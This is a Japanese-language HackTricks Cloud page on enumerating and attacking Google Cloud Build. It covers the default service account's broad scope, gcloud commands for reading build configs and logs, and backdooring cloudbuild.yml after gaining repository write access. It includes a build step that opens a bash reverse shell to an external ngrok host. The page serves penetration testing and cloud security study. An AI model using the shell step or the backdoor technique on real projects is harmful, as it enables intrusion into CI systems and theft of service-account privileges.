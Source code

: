 # GCP - Cloud Build Enum

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社の広告を見たい**場合や、**最新バージョンのPEASSやHackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## 基本情報

Google Cloud Buildは、**ソフトウェアのビルド**とリリースプロセスを自動化する**管理型CI/CDプラットフォーム**であり、**ソースコードリポジトリ**と統合し、さまざまなプログラミング言語をサポートしています。開発者は、コードを**自動的にビルド、テスト、デプロイ**することができます。また、ビルドステップとワークフローをカスタマイズする柔軟性も提供しています。

各Cloud Buildトリガーは、**Cloudリポジトリに関連付けられているか、外部リポジトリ**（Github、Bitbucket、Gitlab）と直接接続されています。

Cloud Buildを**ビルドの実行に承認を必要とするように設定**することも可能です（デフォルトでは無効）。

**サービスアカウントには`cloud-platform`スコープがあり**、すべての特権を使用することができます。**SAが指定されていない場合**（submit時など）、**デフォルトのSA** `<proj-number>@cloudbuild.gserviceaccount.com`が**使用されます。**

{% hint style="success" %}
ここからまたはCloudリポジトリからGithub/Bitbucketトークンを盗む方法は見つかりませんでした。リポジトリがダウンロードされると、[https://source.cloud.google.com/](https://source.cloud.google.com/)のURLを介してアクセスされ、クライアントからはGithubにアクセスされません。
{% endhint %}

### ストレージ

Cloud Buildは、**トリガーのファイルを保存するために新しいストレージを生成することがあります**。これは、GCPが提供する例で発生します。
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### シェルを取得する
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 列挙

ビルドの設定とログには、**機密情報が含まれている可能性があります**。
```bash
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs
```
## 特権昇格

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 認証されていないアクセス

### cloudbuild.yml

リポジトリに書き込みアクセスを侵害すると、**`cloudbuild.yml`**という名前のファイルが含まれている場合、このファイルを**バックドア**にすることができます。このファイルは、Cloud Build内で実行される**コマンドを指定**しており、秘密情報を外部に持ち出し、実行内容を妨害し、または**Cloud Buildサービスアカウントを危険にさらす**ことができます。

{% hint style="info" %}
GCPには、管理者が外部のPRからのビルドシステムの実行を制御するオプションがあります。コメント制御とは、共同作業者/プロジェクト所有者が「/gcbrun」とコメントすることで、PRに対してビルドをトリガーする必要がある機能です。この機能を使用すると、インターネット上の誰もがビルドシステムをトリガーすることができなくなります。
{% endhint %}

関連情報については、次のページを参照してください。Github Actionsを攻撃する方法についてのページです（これに類似しています）：

{% content-ref url="../../../pentesting-ci-cd/github-security/abusing-github-actions/" %}
[abusing-github-actions](../../../pentesting-ci-cd/github-security/abusing-github-actions/)
{% endcontent-ref %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで宣伝したい**場合や、**PEASSの最新バージョンにアクセスしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)を手に入れましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**してください。
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有しましょう。

</details>
